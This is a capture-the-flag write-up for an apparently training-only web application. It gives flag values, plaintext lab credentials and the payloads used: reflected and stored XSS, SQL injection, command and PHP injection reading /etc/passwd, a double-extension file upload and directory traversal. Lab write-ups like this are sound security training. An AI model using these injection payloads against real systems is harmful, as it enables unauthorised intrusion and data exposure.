 ```markdown
# Web Application CTF Challenge: Flag Solutions and Methods

## Cross-Site Scripting (XSS) Flags

### Flag 1: `f76sdfkg6sjf`
- **Location**: Welcome.php
- **Vulnerability**: XSS Reflected
- **Method**:
  ```html
  <script>alert("hi")</script>
  ```

### Flag 2: `ksdnd99dkas`
- **Location**: Memory-Planner.php (first field)
- **Vulnerability**: XSS Reflected (Advanced)
- **Method**: 
  ```html
  <SCRIPscriptT>alert("hi")</SCRIPscripTt>
  ```
- **Note**: Input validation removes "script", so split the word

### Flag 3: `sd7fk1nctx`
- **Location**: comments.php
- **Vulnerability**: XSS Stored
- **Method**:
  ```html
  <script>alert("hi")</script>
  ```

## File Inclusion and Data Exposure Flags

### Flag 4: `nckd97dk6sh2`
- **Location**: About-Rekall.php
- **Vulnerability**: Sensitive Data Exposure
- **Method**:
  ```bash
  # Using cURL
  curl -v http://192.168.14.35/About-Rekall.php

  # OR using Burp Suite
  1. Set up Burp/FoxyProxy
  2. Visit page
  3. Send to Repeater
  4. Check response headers
  ```

### Flag 5: `mmssdi73g`
- **Location**: Memory-Planner.php (second field)
- **Vulnerability**: Local File Inclusion
- **Method**:
  ```php
  // Create test.php
  <?php
    echo "Hi!";
  ?>
  ```
- **Steps**: Upload to "Choose your Adventure" option

### Flag 6: `ld8skd62hdd`
- **Location**: Memory-Planner.php (third field)
- **Vulnerability**: Local File Inclusion (Advanced)
- **Method**: Create and upload `test.jpg.php`
- **Note**: Bypasses .jpg extension check

## Authentication and Injection Flags

### Flag 7: `bcs92sjsk233`
- **Location**: Login.php (first field)
- **Vulnerability**: SQL Injection
- **Method**:
  ```sql
  ' or 1=1 -- -
  ```

### Flag 8: `87fsdkf6djf`
- **Location**: Login.php (second field)
- **Vulnerability**: Sensitive Data Exposure
- **Credentials**:
  - Username: `dougquaid`
  - Password: `kuato`
- **Method**: Highlight page to reveal hidden HTML

### Flag 9: `dkkdudfkdy23`
- **Location**: robots.txt
- **Vulnerability**: Sensitive Data Exposure
- **Method**: Access `http://192.168.14.35/robots.txt`

## Command Injection Flags

### Flag 10: `dkkdudfkdy23`
- **Location**: DNS Check
- **Vulnerability**: Command Injection
- **Method**:
  ```bash
  127.0.0.1 && cat vendors.txt
  127.0.0.1 && cat ../../../../etc/passwd
  ```

### Flag 11: `ksdnd99dkas`
- **Location**: MX Record Checker
- **Vulnerability**: Command Injection (Advanced)
- **Method**:
  ```bash
  www.example.com | cat vendors.txt
  ```
- **Note**: `&` and `;` are stripped, use `|` instead

## Advanced Exploitation Flags

### Flag 12: `hsk23oncsd`
- **Location**: Admin Login
- **Vulnerability**: Weak Credentials
- **Credentials**:
  - Username: `melina`
  - Password: `melina`
- **Note**: User found in `/etc/passwd`

### Flag 13: `jdka7sk23dd`
- **Location**: souvenirs.php
- **Vulnerability**: PHP Injection
- **Method**:
  ```url
  http://192.168.13.35/souvenirs.php?message=""; system('cat /etc/passwd')
  ```

### Flag 14: `dks93jdlsd7dj`
- **Location**: admin_legal_data.php
- **Vulnerability**: Session Management
- **Method**:
  ```url
  http://192.168.13.35/admin_legal_data.php?admin=87
  ```
- **Note**: Use Burp Intruder to find correct session ID (87)

### Flag 15: `dksdf7sjd5sg`
- **Location**: Disclaimer.php
- **Vulnerability**: Directory Traversal
- **Method**:
  ```bash
  # First, enumerate directories
  www.example.com && ls -la old_disclaimers
  
  # Then access file
  http://192.168.13.35/disclaimer.php?page=old_disclaimers/disclaimer_1.txt
  ```

## Summary of Vulnerabilities
1. Cross-Site Scripting (XSS)
   - Reflected
   - Stored
2. File Inclusion
3. Command Injection
4. SQL Injection
5. Session Management
6. Directory Traversal
7. PHP Injection

## Tools Used
- Burp Suite/FoxyProxy
- cURL
- Web Browser Developer Tools
``````